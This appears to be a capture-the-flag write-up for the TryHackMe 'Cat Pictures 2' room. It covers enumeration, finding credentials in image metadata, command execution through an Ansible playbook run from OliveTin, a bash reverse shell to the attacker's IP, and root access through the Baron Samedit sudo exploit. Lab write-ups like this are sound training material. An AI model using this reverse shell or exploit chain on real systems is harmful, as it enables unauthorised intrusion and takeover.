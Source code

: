 ```yaml
---
title: "Intranet TryHackMe"
collection: publications
permalink: /publication/cat-pictures-2
excerpt: 'This is a free room from TryHackMe'
date: 2023-07-07
venue: '07-07'
#paperurl: 'http://academicpages.github.io/files/paper1.pdf'
#citation: 'Your Name, You. (2009). &quot;Paper Title Number 1.&quot; <i>Journal 1</i>. 1(1).'
---
```


![header](/images/catpictures2.png)

**LINK :** [Cat Pictures 2](https://tryhackme.com/room/catpictures2)



# Enumeration

* Started by running an Nmap scan :

```bash
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-07 07:21 EDT
Nmap scan report for 10.10.130.123
Host is up (0.064s latency).
Not shown: 995 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    nginx 1.4.6 (Ubuntu)
222/tcp  open  ssh     OpenSSH 9.0 (protocol 2.0)
1337/tcp open  http    OliveTin
3000/tcp open  ppp?
8080/tcp open  http    SimpleHTTPServer 0.6 (Python 3.6.9)
```

The scan reveals 6 open ports :

 * ``ssh`` running on port 22.
 * ``nginx`` on port 80.
 * ``ssh`` on port 222.
 * ``OliveTin`` on port 1337 to access predefined shell commands from a a web interface.
 * ``Gitea`` on port 3000.
 * ``nginx`` default page on port 8080.


---

* On port 80 we have a ``Lychee`` photo album with cat pictures, and since this room is about cats, it must be our way to get the first flag.
* I downloaded all the cats pictures and run ``exiftool`` to read the metadata of these pictures.

```bash
exiftool *.jpg
```
![catpictures1](/images/cat_pictures1.png)

* I noticed that one of these pictures revealed the path to a text file on port ``8080``.

* Checking the text file, we found the credentials to access ``gitea``.

![catpictures2](/images/cat_pictures2.png)

# FLAG 1 :

* After gaining the access to the user's account we found, you will see a file named ``flag1.txt`` in ``ansible`` repository.

![catpictures3](/images/cat_pictures3.png)

# FLAG 2 :

* Checking the Ansible playbook, you will notice it contains a ``command`` line. so the idea here is to change the command and run the playbook from the ``OliveTin`` page on port ``1337`` to see if the command is getting executed.

> [Ansible playbooks](https://docs.ansible.com/ansible/latest/playbook_guide/playbooks_intro.html)

![catpictures4](/images/cat_pictures4.png)

![catpictures5](/images/cat_pictures5.png)

![catpictures6](/images/cat_pictures6.png)

* Since the command is getting executed, we can run a reverse shell to us.

```bash
bash -c "bash -i >& /dev/tcp/<your-ip-address>/4444 0>&1"
```
![catpictures7](/images/cat_pictures7.png)

* Before you run the ansible playbook, let's open a netcat listener

```bash
nc -lvnp 4444
```
![catpictures8](/images/cat_pictures8.png)

# FLAG 3 :

* In order to speed things up, let's run ``linpeas`` to see if we have a privilege escalation vector.

> [linpeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)

* The one that stood out is ``the sudo Baron Samedit``.

![catpictures9](/images/cat_pictures9.png)

* I Downloaded this exploit [exploit](https://github.com/blasty/CVE-2021-3156) and uploaded it to the target machine.

```bash
make
```
![catpictures10](/images/cat_pictures10.png)

* let's run ``sudo-hax-me-a-sandwic``

```bash
.\sudo-hax-me-a-sandwic 0
```
![catpictures11](/images/cat_pictures11.png)

* Now we are root, change directory to ``/root`` and get your 3rd flag.




